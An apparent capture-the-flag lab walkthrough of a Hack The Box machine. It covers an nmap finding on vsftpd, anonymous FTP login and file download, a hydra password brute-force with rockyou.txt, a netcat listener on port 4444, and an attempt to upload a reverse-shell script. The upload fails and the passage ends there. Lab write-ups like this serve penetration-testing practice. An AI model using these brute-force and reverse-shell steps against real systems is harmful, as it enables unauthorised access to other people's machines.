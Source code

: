 nmap scan

From our scan we see that port 21 is open running the FTP service - `vsftpd 3.0.3`
This shows up as a common vulnerability. 
CVE-2021-30047 resulting in a denial of service. 

Lets attempt to connect with `FTP`. 

```php
ftp 10.129.229.90
```

Lets attempt some default credentials and see if we can get in.

```php
Connected to 10.129.229.90.
220 (vsFTPd 3.0.3)
Name (10.129.229.90:drew): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Using `anonymous` we get in on our first try.
In the directory we see a bunch files, lets download them and see what we got.

```php
get MigrateOpenWrt.txt
get ProjectGreatMigration.pdf
get ProjectGreatMigration.pdf
get backup-OpenWrt-2023-07-26.tar
get employees_wellness.pdf
```

Looks like this is the only directory, no moving up or moving out.

```php
hydra -l user -p /home/drew/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt ftp://10.129.229.90
```

We couldn't get any credentials out of it.

```python
python3 -m http.server
```

```php
nc -nvlp 4444
Listening on 0.0.0.0 4444
```

```php
put http://10.129.229.90/htbrevshell.sh
```

Okay it looks like at this step we get stuck, we don't have the permissions to download files on this account. Lets come back to this. 

Time to explore those files we just downloaded for any information that could be useful. 

